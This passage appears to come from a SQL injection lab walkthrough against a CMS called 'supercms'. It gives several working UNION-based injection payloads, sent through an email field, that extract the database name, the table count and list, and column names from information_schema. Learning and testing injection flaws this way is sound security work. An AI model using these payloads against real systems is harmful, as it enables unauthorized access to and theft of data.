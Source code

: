 The database we are using is "supercms".

Although we can read the output, it does not look very accessible as it is appended to the email part of our concatenation. It is doable, but we can do better.

Request sent:
```
test%40test.com'+UnIoN+SELECT+1,2,3,CONCAT("\r\n",database(),"\r\n","@b.com");--+-
```

Output:

![Database Better](/sqli-0x02/29_db_2.png)

Printing all our information out on a new line looks much better.

Let's take a look at the user we are running as:

![DB User](/sqli-0x02/30_db_user.png)

We are running as "supercms@localhost". Not so useful, let's move on.

### Enumerating Tables

Let's take a count of the tables that exist in the current database we're using.

Request:
```
test@test.com' UnIoN SELECT 1,2,3,CONCAT('\r\n',count(table_name),'\r\n','@test.com') FROM information_schema.tables WHERE table_schema=database()-- -
```


![Counting Tables](/sqli-0x02/31_count_tables.png)

We see that we have three tables in this database, let's list them out.

Request:

```
test@test.com' UnIoN SELECT 1,2,3,CONCAT('\r\n','\r\n',group_concat(0x7c,table_name,0x7c,'\r\n'),'\r\n','@test.com') FROM information_schema.tables WHERE table_schema=database()-- -
```

![Tables List](/sqli-0x02/32_list_tables.png)

From the output above we can see that we have three tables. Let's see what columns each table has

### Enumerating Columns

Let's look at the columns of the first table - groups

Request:
```
test%40test.com'+UnIoN+SELECT+1,2,3,CONCAT('\r\n','\r\n',group_concat(0x7c,column_name,0x7c,'\r\n'),'\r\n','%40test.com')+FROM+information_schema.columns+WHERE+table_name%3d'groups'--+-
```

![Columns Of Table Groups](/sqli-0x02/33_col1.png)
